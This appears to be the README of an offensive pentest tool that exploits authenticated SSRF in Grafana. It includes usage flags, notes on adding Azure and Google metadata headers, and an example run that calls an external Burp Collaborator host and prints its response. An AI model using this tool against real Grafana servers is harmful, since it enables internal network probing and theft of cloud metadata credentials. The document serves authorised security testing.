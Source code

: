 # grafana-ssrf
Authenticated SSRF in Grafana.

Notes
---

* Azure metadata header has been added to all SSRFS
* Google metadata header has been added to all SSRFS
* SSRF will not follow redirects no matter what so ensure url is direct.
* If login is via SSO or other none grafana logins please grab your session cookie and use the -s flag

Usage
---


```
usage: grafana-ssrf.py [-h] [-s SESSION] [-u URL] [-H HOST] [-f FILE] [-U USERNAME]
                  [-P PASSWORD]

optional arguments:
  -h, --help            show this help message and exit
  -s SESSION, --session SESSION
                        Session Cookie Value
  -u URL, --url URL     URL of host to check will need http or https
  -H HOST, --host HOST  Host for Grafana
  -f FILE, --file FILE  File of URLS to check SSRF Against
  -U USERNAME, --username USERNAME
                        Username for Grafana
  -P PASSWORD, --password PASSWORD
                        Password for Grafana
```

Example
---

```
python3 grafana.py -U admin -P admin -H http://localhost:3000 -u http://8t2s8yx5gh5nw0z9bd3atkoprgx6lv.burpcollaborator.net
Refreshed Sources
SSRF Source Updated
Status code:   200
Response body: <html><body>c7yzzb4zyj5v14wkpi2nxvzjigz</body></html>
Deleted Old SSRF Source
```


Don't forget to check out what jobs we have open!

https://bishopfox.com/jobs#open-positions - Come Join the Fox's!
